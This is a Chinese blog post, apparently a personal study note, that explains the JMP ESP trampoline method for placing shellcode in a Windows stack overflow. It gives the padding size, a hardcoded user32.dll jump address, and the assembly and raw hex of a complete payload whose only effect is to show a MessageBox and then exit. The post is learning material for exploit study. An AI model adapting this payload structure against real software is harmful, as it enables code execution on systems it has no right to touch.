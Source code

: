 ```yaml
---
title: 漏洞利用学习笔记-002-ESP跳板
description: ShellCode的动态定位法-ESP跳板法
date: 2020-10-19 18:20:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - ShellCode
---
```


> [点击此处下载本文附可执行程序，shellcode文件](./exploit-study-02.zip)

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-002-esp跳板/)

## 栈空间移位

ShellCode在内存中往往是动态的，并非直接填写一个定值  
也就是前一篇中buffer数组的栈空间地址，并非总是个定值  
当CPU执行到此地址时，有可能触发无效指令异常导致程序崩溃，ShellCode无法运行

### 原理

从程序已加载的系统DLL中查找一个`JMP ESP`指令的地址，用此地址去淹没返回地址  
这样既能精准定位shellcode的位置，又能适应栈空间的动态变化  
栈的地址是上小下大，CPU的执行顺序是小地址到大地址，栈淹没同样从小地址淹没到大地址  
这样只要将前面的一段空间淹没为无意义数据，将ShellCode的开始恰好淹没在`[ESP]`处，就可以达到ShellCode动态寻址

### ShellCode编写

#### 结构

无用数据+`JMP ESP`地址(此地址恰好淹没到函数返回地址)+命令代码(用于测试，MessageBox弹窗)

> 说明：
>
> - `retn`后将会跳到`JMP ESP`处，随后ESP + 4
> - `JMP ESP`后将会正好跳到命令代码处

#### 必要数据

- `JMP ESP`地址：位于User32.dll中`0x77D29353`(没必要必须是原版命令，只要搜二进制`0xFFE4`即可)
- 垃圾数据大小：52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### 最终Code

> 以下是需要执行的命令代码

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> 最终的ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
